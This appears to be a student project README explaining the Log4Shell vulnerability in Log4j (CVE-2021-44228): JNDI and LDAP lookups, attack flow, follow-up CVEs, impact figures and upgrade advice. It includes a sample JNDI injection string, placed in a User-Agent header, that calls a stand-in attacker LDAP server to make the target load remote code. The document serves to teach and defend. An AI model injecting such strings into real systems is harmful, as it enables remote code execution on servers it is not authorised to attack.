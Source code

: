 
# 🚨 Log4Shell: CVE-2021-44228 🚨



## ❓ What is Log4Shell?

The Log4Shell attack was a widespread Java exploit targeting a common logging package (Log4j) for remote code execution. It leveraged a critical vulnerability in the Log4j library, enabling attackers to execute arbitrary code remotely via crafted log messages. Despite the ubiquity of Log4j in various software frameworks and applications, the severity of this vulnerability was rated with a CVSS score of 10, indicating its critical nature.

### Why is it so important
- A popular Java library for logging error messages in applications.**That’s the irony!!!**
- Attackers can exploit the vulnerability using text messages to control a computer remotely. 
- Everyone is using it and there is no fix -> CVSS Score of **“10” CRITICAL**
- The ease of exploiting the vulnerability compounds its impact. The Log4j library controls how applications log strings of code and information. The vulnerability enables an attacker to gain control over a string and trick the application into requesting and executing malicious code under the attacker’s control. 
- Log4j logs messages from software and searches for errors afterward. The data range is broad, from basic browser and web page information to technical details about the system Log4j 2 runs on.
- Not only can the Log4j library create simple logs, but it can also execute commands to generate advanced logging information. It can also communicate with other sources, such as internal directory services.

## 📚 Background

Log4j, a Java-based logging utility, became the focus of security concerns due to its support for lookup syntax that inadvertently allowed for remote code execution through the Java Naming and Directory Interface (JNDI). This vulnerability, stemming from JNDI lookups, enabled attackers to control Log4j's log message processing, leading to the execution of malicious code.
Log4j is a Java based logging utility.
Log4j supports the lookup syntax for better string formatting. For example,
```
String lookup = "${java:os}";
logger.info("App started in OS: {}",lookup);
```
Done by implementing the corresponding Lookup class.
`16:44:47.542 [main] INFO  log4j logger - App started in OS: Mac OS X 13.3.1, architecture: aarch64-64`

Next question that arises : Is the string formatting main cause of vulnerability?

- Not really. The lookups are all predefined lookup strings. You cannot do any other things.
- But the story is different with JNDI.The Log4Shell vulnerability lies in the lookup through Java Naming and Directory Interface (JNDI).

## 🕵️‍♂️ The Vulnerability Explained
**Java Naming and Directory Interface (JNDI)**: 
Provides an API for applications to interact with various directory services, facilitating the lookup of remote objects. It's this mechanism that Log4Shell exploits.
![Name1](Images/image3.png "name1")
- The Java API for naming and directory service. 
- If you have a database connection named `“java:MySqlDS”` in your Java environment.

- Other java processes on the same Java environment can lookup the connection:
```
		Object datasourceRef = context.lookup(“java:MySqlDS”);
		DataSource ds = (DataSource) datasourceRef;
		conn = ds.getConnection();
```
- Also supports DNS lookups: `${jndi:dns:cmu.edu}` to log statistics about DNS lookup.
- This is the main reason why log4j accepts JNDI. Easy to fetch and log some printable objects.The JNDILookup plugin is added to the log4j package in issue LOG4J2-313, in 2013 (version 2.0-beta9)
- JNDI has a number of service provider interfaces (SPIs) that enable it to use a variety of directory services.
![Name1](Images/image6.png "name1")
**Danger! LDAP and RMI support Remote Code Execution.**
**LDAP : Lightweight Directory Access Protocol**
Through the use of JNDI with LDAP, attackers could manipulate the lookup process to execute remote code.
- Can use JNDI + LDAP to find an object containing the needed data.
- ldap://localhost:3**/o=BusinessObjectId allows application to find and invoke the BusinessObject remotely from an LDAP server running either on localhost or remote machine
- LDAP server either running on different server (in protected zone), or potentially anywhere on the Internet.
- If attacker can control the JNDI URL, they can cause the application to load and execute arbitrary Java code.

![Name1](Images/image5.png "name1")

**LOG4J JndiLookup Plugin**
Enables retrieval of variables via JNDI, where specially crafted lookup strings could trigger the vulnerability.
- “The JndiLookup allows variables to be retrieved via JNDI. By default the key will be prefixed with java:comp/env/, however if the key contains a ":" no prefix will be added.”
- `${jndi:ldap://attacker.server:1339/evil}` : could be a HTTP header like User-Agent, which commonly gets logged.

## 🎯 Attack Methodology

The attack involves several steps, from the initial injection of the malicious JNDI lookup string into a vulnerable application, to the execution of arbitrary code hosted on the attacker's server. This process could lead to various malicious outcomes, such as establishing reverse shells or executing unauthorized commands on the affected server.
![Name1](https://github.com/paras98/Log4Shell/blob/main/Images/Presentation1.gif)
![Name1](Images/image7.png "name1")

## 🎥 Video Demonstration
[![Log4Shell Demo Minecraft](Images/demo.png)](https://drive.google.com/file/d/1nSHfFkhpL-S6hU8LwZ-DDU9vICbSOGzM/view?usp=sharing)


## 💥 Impact and Mitigation

The widespread use of Log4j resulted in a significant impact across numerous systems and applications, with several CVEs issued to address different aspects of the vulnerability. Efforts to mitigate the issue included updating Log4j to a secure version, disabling certain features, and applying patches as they became available.

### Some CVEs 
- **CVSS Base Score:10 (12/10/2021)**
- CVE-2021-45046 enables hackers to send malicious JNDI lookups to systems that use certain non-default settings, even if those systems have fixed Log4Shell. Present in Log4j versions 2.15 and below. 

- **CVSS Base Score:5.9 (12/18/2021)**  
- CVE-2021-45105 enables hackers to launch denial-of-service attacks by sending malicious messages to Log4j. Present in Log4j versions 2.16 and below. 

- **CVSS Base Score:6.6 (12/28/2021)**
- CVE-2021-44832 is a remote code execution vulnerability. This flaw is less critical than Log4Shell because hackers need to gain elevated permissions before they can exploit it. Present in Log4j versions 2.17 and below.  

### Stats
- More than 35,000 Java packages, amounting to over 8% of the Maven Central repository

- As of December 16, 2021, 35,863 of the available Java artifacts from Maven Central depend on the affected log4j code

![Name1](Images/image19.png "name1")

**Impact on Human Workforce**
- Over 800,000 exploitation attempts were detected in the first 72 hours after log4j became public implying an urgent response from security team all around the world disrupting all the security engineers.
- This also implies a significant burden and stress on the developers and maintainers of Log4j and other open source projects. 

**Monitory Impact**
- The most affect organizations where evaluated over $100M.
- Most effect industry was education  services.

**Keeping at bay**
- In November 2022, Tenable reported that 29% of the assets still vulnerable to Log4Shell were “recurrences,” meaning they were patched, but the flaw reappeared.

## Time Line 

![Name1](Images/timeline.png "name1")

## Fix & Remediation
1. Upgrade to the latest version of log4j. (At least >=2.15.0)
What did this fix had to offer 



## 🤔 Reflections on Log4Shell

The incident raised questions about the security of open-source frameworks and the responsibilities of developers and maintainers in ensuring the security of their software. It highlighted the importance of cautious feature support in security-critical software and the need for prompt and effective vulnerability management.


**Authors:** Aditya Sudhansu, Ziheng Yan, Jun Wen, Paras Saxena, Trevor Kann


